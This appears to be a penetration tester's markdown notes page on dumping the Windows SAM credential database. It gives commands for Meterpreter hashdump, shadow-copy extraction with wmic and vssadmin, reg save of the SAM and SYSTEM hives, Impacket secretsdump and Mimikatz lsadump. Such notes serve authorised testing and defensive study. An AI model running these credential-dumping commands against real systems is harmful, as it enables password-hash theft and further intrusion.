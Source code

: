 ```yaml
---
category: Uncategorized
tags: []
---
```

#msf #wmi #vssadmin #reg #mimikatz #impacket
# SAM Database
- Local database of local users and their credentials. 
- Cannot be read by any user while windows is running.
- To dump credentials from the SAM database, SYSTEM is also required. [Credentials](Credentials.md)
### Metasploit
- Metasploit's `hashdump` can be used to dump the SAM database.
- Requires administrative privileges.
```
meterpreter > hashdump
```
### Fetching SAM and SYSTEM using Volume shadow copy
- This can be used to fetch SAM and SYSTEM database by creating a shadow copy of the windows installation.
- Requires administrative privileges.
- Using WMI to call the shadow copy function
```powershell
# Create a shadow copy of the C Drive
wmic shadowcopy call create Volume='C:\'
# Verify creation
vssadmin list shadows
# "Shadow Copy Volume" property has the location of the shadow copy 
# SAM and SYSTEM can be copied from this path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
### Fetching SAM and SYSTEM from Registry
- Registry can be used to fetch the SAM and SYSTEM hives.
- Requires administrative privileges.
```powershell
reg save HKLM\sam C:\Users\Administrator\sam-hive
reg save HKLM\system C:\Users\Administrator\system-hive
```
### Dumping SAM using impacket
- secretsdump.py can be used to dump the sam database
```bash
./secretsdump.py -sam sam-hive -system system-hive LOCAL
```
### Mimikatz
- Mimikatz can be used to dump SAM database directory or from the SAM and SYSTEM hives.
```powershell
# dump sam database online
privilege::debug
token::elevate
lsadump::sam
# or via saved sam and system files/registry hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
